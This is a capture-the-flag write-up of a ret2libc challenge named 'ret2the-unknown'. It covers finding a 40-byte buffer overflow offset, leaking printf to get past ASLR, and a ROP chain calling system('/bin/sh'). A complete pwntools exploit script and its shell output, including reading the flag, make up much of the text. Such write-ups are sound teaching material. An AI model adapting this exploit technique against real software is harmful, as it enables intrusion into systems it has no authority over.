






# ret2the-unknown

<p align="center">
    <kbd></kbd><br/>
</p>

The challenge description has hinted that it is a ret2libc challenge

At line 17 of the source code, it is clear that the program is vulnerable to buffer overflow

<p align="center">
    <kbd></kbd><br/>
</p>

To start, fuzz the input <br />
```
$ pattern_create 100 
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
``` 

Run the program and provides the above payload. It segfaults at ret instruction <br />
<p align="center">
    <kbd></kbd><br/>
</p>

Looking at the registers, I can identify the return address <br />
<p align="center">
    <kbd></kbd><br/>
</p>

```
$ pattern_offset AA0AAFA
AA0AAFA found at offset: 40
```

So, I need to spray 40 random characters in order to control RIP.

From the source code, I know that the address of printf function is leaked.

From the program, I know that ASLR is enabled.
<p align="center">
    <kbd></kbd><br/>
</p>

Idea to pwn this challenge: Overwrite the value of RIP to address of main function so that it reruns the program. Then, obtain the address of printf function from the output and used it to find the base libc address. Once I have updated the base libc address, I can get the address of `system` as well as the strings `/bin/sh`. I also obtain ROP gadget `pop rdi; ret` from the binary (pass `/bin/sh` as an argument to `system`).

Using [ropper](https://github.com/sashs/Ropper), I know that there exists “pop rdi; ret” gadget in the binary. <br />
`$ python3 Ropper.py -f ../ret2the-unknown --search "% ?di"` <br />
<p align="center">
    <kbd></kbd><br/>
</p>

Following the idea mentioned above, I created the script to perform my exploit.

```
from pwn import *

# Loading ELF files
binary = ELF('./ret2the-unknown')
linker = ELF('./ld-2.28.so')
libc = ELF('./libc-2.28.so')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

p = remote('mc.ax', 31568)
#p = process(binary.path)
res = p.recvuntil('there safely?\n')
print(res.decode('latin-1'))
payload = b'A' * 40
payload += p64(binary.symbols['main'])
p.sendline(payload)
printf_addr = p.recvuntil('good luck!\n').split(b'there:')[1].strip().split(b'\n')[0].strip().decode()
print("printf_addr: " + printf_addr)
print("printf_offset: " + hex(libc.symbols['printf']))
res = p.recvuntil('there safely?\n')
print(res)

# finding the base adddress
libc_base_addr = int("0x" + printf_addr, 16) - libc.symbols['printf']
print(hex(libc_base_addr))
libc.address = libc_base_addr   # update libc address

payload = b'A' * 40
payload += p64(pop_rdi + 1) # trick to handle stack misalignment (as pop rdi - 2 bytes, ret - 1 byte) (pop_rdi + 1 is ret instruction)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

```
$ python3 exploit-ret2libc.py
[snip]
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?

printf_addr: 7fb461c48560
printf_offset: 0x58560
b"that board meeting was a *smashing* success! rob loved the challenge!\nin fact, he loved it so much he sponsored me a business trip to this place called 'libc'...\nwhere is this place? can you help me get there safely?\n"
0x7fb461bf0000
[*] Switching to interactive mode
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7fb461c48560
good luck!
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
[*] Got EOF while reading in interactive
```

Flag: `flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`

# Resources
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
https://github.com/Gallopsled/pwntools-tutorial